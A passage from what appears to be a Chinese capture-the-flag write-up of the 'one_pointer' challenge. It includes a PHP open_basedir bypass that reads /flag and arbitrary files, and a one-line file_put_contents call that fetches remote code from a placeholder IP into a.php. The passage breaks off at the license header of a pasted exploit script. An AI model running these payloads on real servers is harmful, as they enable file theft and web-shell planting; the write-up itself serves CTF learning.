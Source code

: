注意上面的`9000`端口需要自己测试。因为地方可能不一样

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0148c9cf148bbc3cc4.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01ca9ccebab2d8652f.png)

[![](https://p0.ssl.qhimg.com/t016752df56a49663f4.png)](https://p0.ssl.qhimg.com/t016752df56a49663f4.png)

这个题就不难解决了，纯粹的一个题解。

### <a class="reference-link" name="(%E4%BA%8C)%20%E8%93%9D%E5%B8%BD%E6%9D%AF%E7%9A%84one_pointer"></a>(二) 蓝帽杯的one_pointer

第一层的溢出就不多说了。下面给两个绕过open_basedir

```
&lt;?php
chdir("sandbox/660bef445e619cf44695fec04f93e4f7ff60e252");
mkdir('decadefirst');
chdir('decadefirst');
ini_set('open_basedir','..');
chdir('..');chdir('..');chdir('..');
chdir('..');chdir('..');chdir('..');chdir('..');
ini_set('open_basedir','/');
readfile("/flag");
var_dump(file_get_contents($_GET[a]));
```

```
file_put_contents("a.php",file_get_contents(ip))
```

[![](https://p0.ssl.qhimg.com/t014c64e47ff7ec2148.png)](https://p0.ssl.qhimg.com/t014c64e47ff7ec2148.png)

[![](https://p0.ssl.qhimg.com/t010a840f582b6db977.png)](https://p0.ssl.qhimg.com/t010a840f582b6db977.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01ff6273f5ecd70c02.png)

大概就是这么一个流程。下面开始打了。

下面贴上ha牛的脚本

```
&lt;?php
/**
 * Note : Code is released under the GNU LGPL
 *
 * Please do not change the header of this file
 *
 * This library is free software; you can redistribute it and/or modify it under the terms of the GNU
 * Lesser General Public License as published by the Free Software Foundation; either version 2 of
 * the License, or (at your option) any later version.
 *
 * This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY;
 * without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
 *
 * See the GNU Lesser General Public License for more details.
 */
/**
```
